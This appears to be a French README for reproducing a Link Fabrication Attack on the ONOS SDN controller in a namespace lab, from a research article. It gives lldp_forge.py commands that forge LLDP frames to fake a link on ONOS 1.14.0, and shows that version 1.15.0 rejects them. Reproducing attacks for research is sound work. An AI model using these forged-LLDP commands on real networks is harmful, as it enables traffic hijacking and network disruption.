


# Reproduction de LFA sur contrôleur ONOS

_Article MISC n° 109_

_Flavien Joly-Pottuz / Stefano Secci_ | _**CNAM PARIS**_

## Reproduction sur ONOS version 1.14.0

Pour les besoins de la reproduction, il est préférable d'ouvrir plusieurs terminaux avec le système de test:
+ Terminal H1 - Lancer un Ping permanant vers H2 afin de suivre l'évolution de la connectivité
+ Terminal P1 - Exécution de l'attaque
+ Terminal P2 - Exécution de l'attaque
+ Terminal LOGS - Suivi des évènements  ONOS

Pour les terminaux H1-P1-P2, il est possible de se placer dans le contexte du namespace afin d'éviter d'd'exécuter les 
commandes avec le préfixe `ip netns ...` en utilisant la commande `ip netns exec {H1|P1|P2} bash`.

Avant de procéder à l’injection, on lance la commande suivante ```tail –f /opt/onos/log/karaf.log``` dans le terminal 
dédié au LOGS afin de surveiller la prise en compte des liens dans ONOS.


**Utilisation de nohup :**
Il est possible d'utiliser `nohup` afin de lancer l'ensemble des commandes depuis un unique terminal,il suffit d'ajouter 
l'argument `--nohup` lors du lancement du script _audit.py_ afin d'obtenir la commande au bon format. Pour arreter 
l'éxécution des scripts il faut éxecuter la commande `killall -r python3`.

### Création du lien fabriqué H2 - H1

On commence par effectuer l'audit des trames LLDP reçues par P1 sur son interface p1-eth1.

```
ip netns exec p1 python3 audit_lldp.py --target p2
```

Le script revoit alors la commande avec les paramètres nécessaires à la forge de la forme :

```
ip netns exec p2 python3 lldp_forge.py --delta 3 --eth-mac-src 02:eb:9f:67:c9:42  --eth-mac-dst 01:80:c2:00:00:0e --chassis-mac 52:83:9c:2c:cc:4c  --source-port 2
```

On exécute alors la commande **sur le terminal de P2** :

```
ip netns exec p2 python3 lldp_forge.py --delta 3 --eth-mac-src 02:eb:9f:67:c9:42  --eth-mac-dst 01:80:c2:00:00:0e --chassis-mac 52:83:9c:2c:cc:4c  --source-port 2
```

Le lien apparait alors sur le dashboard :



Le lien est en pointillé rouge car il est unidirectionnel uniquement (S1 -> S3) 

### Création du lien fabriqué H2 - H1

/!\ _Ne pouvant pas filtrer le trafic entrant uniquement, il faut arreter la génération de trames sur P2 le temps de l'
audit. Ne pas oublier de relancer celle ci ensuite !_ /!\

On commence par effectuer l'audit des trames LLDP reçues par P1 sur son interface p1-eth1.

```
ip netns exec p2 python3 audit_lldp.py --target p1
```

Le script revoit alors la commande avec les paramètres nécessaires à la forge de la forme :

```
ip netns exec p1 python3 lldp_forge.py --delta 3 --eth-mac-src 02:eb:9f:67:c9:42  --eth-mac-dst 01:80:c2:00:00:0e --chassis-mac 0a:a8:e2:5e:2c:4d  --source-port 3
```

On exécute alors la commande **sur le terminal de P1** :

```
ip netns exec p1 python3 lldp_forge.py --delta 3 --eth-mac-src 02:eb:9f:67:c9:42  --eth-mac-dst 01:80:c2:00:00:0e --chassis-mac 0a:a8:e2:5e:2c:4d  --source-port 3
```

Le lien entre S1 et S3 change alors de couleur sur le dashboard :



Le lien est en gris car il est bidirectionnel désormais (S1 <--> S3) 

## Reproduction sur ONOS version 1.15.0

### Changement de version

#### Utilisation du script utilis.py

```
# Nettoyage de la topologie & changement de version
python3 utilis.py --swap
# Création de la topologie
python3 utilis.py --create
```

#### Méthode manuelle

```
service onos stop
cd /opt
rm onos
ln -s /opt/onos-1.15.0 /opt/onos
ssh-keygen -f "/root/.ssh/known_hosts" -R "[localhost]:8101" # Suppression de la clé SSH de la version 1.14.0
service onos start
```

Après quelques minutes, vous pourrez vérifier que le changement de version est bien effectif en consultant le dashboard.

### Reproduction sur ONOS version 1.15.0

Reprendre les étapes détaillées pour la version 1.14.0

Cette fois ci aucun lien ne devrait etre créé et vous devriez retrouver le log suivant :

```
2020-04-05 17:54:44,313 | WARN  | -127.0.0.1:47940 | LinkDiscovery | 179 - org.onosproject.onos-providers-lldpcommon - 1.15.0 | LLDP Packet failed to validate!
```

## Commandes utiles

### ONOS

+ Consultation de la base de donnée des liens : 
```
onos:links
```

+ Vérification des couts des chemins :
```
onos:paths of:0000f27cf7ed6a4a of:00002e480372fd48
```

### OVS

+ Vérification de la connexion du vSwitch avec le contrôleur :

```
ovs-vsctl show
```

+ Composition du switch vue par le contrôleur :

```
ovs-ofctl show {s1|s2|s3}
```

+ Consultation de la table des flux du switch :

```
ovs-ofctl dump-flows {s1|s2|s3}
```
### Linux

+ Verification des entrées ARP de H1 :

```
ip netns exec h1 arp -a
```

+ Capture de trafic avec enregistrement dans fichier pcap pour lecture avec wireshark :

```
tcpdump -i <interface> -w monfichier.pcap
```
